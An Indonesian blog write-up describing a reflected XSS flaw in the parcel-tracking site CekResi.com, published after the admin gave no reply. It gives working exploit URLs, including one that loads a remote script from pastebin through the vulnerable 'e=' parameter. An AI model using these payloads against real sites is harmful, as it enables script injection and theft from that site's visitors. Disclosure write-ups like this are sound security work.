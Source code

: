 ```yaml
---
title: "XSS on Cekresi.com"
author: "Tan My ID"
tags: ["Web", "WriteUp", "XSS"]
date: 2019-07-24T06:13:55+07:00
draft: false
---
```


Hai lur, kali ini sedikit tulisan tentang salah satu bug yang ku temukan pada website [CekResi.com](https://cekresi.com/) ya karena ndak ada balasan email dari dari admin web tersebut, ya udah aku **write up** ada dari pada ku simpan sendiri hehe.

{{< figure src="https://cekresi.com/images/cek-resi-logo.png" alt="cekresi.com">}}
CekResi.com sendiri adalah website yang populer untuk melakukan tracking barang yang dikirim atau diterima lewat nomer RESI yang di berikan dari kantor pemaketan.

Awal aku menemukan bug ini ketika disuruh atasanku mengecek resi pengiriman dokumen ke kantor pusat tempat aku bekerja, nah aku inget ada website [CekResi.com](https://cekresi.com/) untuk sekedar mentracking barang sudah sampai mana. Nah kumasukkan nomer resinya dan mengetahui bahwa paket sudah sampai ke Jakarta. Aku ingat disana ada form input nomer resi, ku coba isi dengan payload XSS sederhana, namun gagal.

Tidak berhenti di situ, aku mencoba menginstall firefox quantum dan hackbar quantum, kebetulan di sana ada **auto input parameter** dengan script XSS. Dan ternyata aku menemukan sebuah parameter dimana bisa di masukkan payload XSS.

Parameter yang ku temukan seperti berikut **https://cekresi.com/m/index?viewstate=&e=&noresi=** pada parameter `e=` disitu saya menyisipkan payload XSS sederhanya **&quot;&gt;&lt;script&gt;prompt(document.domain);&lt;/script&gt;** untuk memunculkan nama domain dari website **cekresi.com** sehingga url nya menjadi seperti ini :
```
https://cekresi.com/m/index?viewstate=&e="><script>prompt(document.domain);</script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://umirackb.sirv.com/tanmyid/xss-cekresi.png" alt="XSS ">}}

Tak sampai disitu, saya juga mencoba untuk menggunakan script html dalam XSS kali ini dan ternyata berhasil. Berikut payloadnya :
```
https://cekresi.com/m/index?viewstate=&e="><script src=https://pastebin.com/raw/mUBsAPXz/></script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://umirackb.sirv.com/tanmyid/xss-cekresi-2.png" alt="XSS ">}}

Eh iya lupa, ini hanya berlaku pada browser mozilla firefox ya, kalian pasti sudah tau alasannya dong. Nah semoga bermanfaat bagi kalian. Terima Kasih.